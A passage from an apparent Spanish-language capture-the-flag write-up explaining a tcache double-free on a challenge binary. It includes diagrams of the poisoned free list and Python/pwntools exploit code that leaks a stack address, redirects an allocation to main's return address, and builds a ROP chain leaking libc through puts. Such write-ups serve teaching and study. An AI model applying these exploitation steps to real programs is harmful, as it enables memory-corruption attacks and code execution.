 Si escribimos "A" en el chunk liberado sobreescribimos el fd asi que el tcache luce asi:
```
tcache -> chunk1 -> 0x41 
                 fd
```

Si liberamos de nuevo, como el fd no es NULL, `free` entonces lo asignará al tcache:
```
tcache -> chunk1 -> chunk1 --> 0x41 
                 fd            fd
```

Ese chunk ahora apunta a si mismo!, entonces si escribimos una direccion ahora mas 8 bytes nulos sobreescribimos fd y bk de chunk1 lo que sigue:
```
tcache -> chunk1 -> addr --> ?
                 fd
```

Entonces con el primer alloc obtenemos `chunk1` y con el segundo alloc obtenemos `addr` y listo, ya podemos escribir en esa direccion de memoria.

En el exploit se usa el leak del stack para calcular la direccion de retorno de main y asi hacer pivotear del heap al stack:
```
tcache -> chunk1 -> rsp + 0x20 (main_ret) --> ?
                 fd
```

```python
#leak stack
alloc(0x88) #guard
free()
write_data(b"A")
free()
store_flag_ptr()
leak = int(rcu(b"eturn value: ", "\n"),16)
leak2 = int(rcu(b"eturn value: ", "\n"),16)
rcu(b"choice:\n")
logleak("stack leak", leak)
logleak("stack leak2", leak)

# ROP to leak
write_data(p64(leak+0x20)+p64(0)) #ret address
alloc(0x88)
alloc(0x88)
```

Ahora que controlamos el flujo del programa podemos hacer un ROP para filtrar una direccion de libc y obtener la direccion base con puts:
``` python
rop = ROP(elf)

payload = p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got.printf)
payload += p64(elf.sym.puts)
payload += p64(elf.sym.main)
write_data(payload)
```
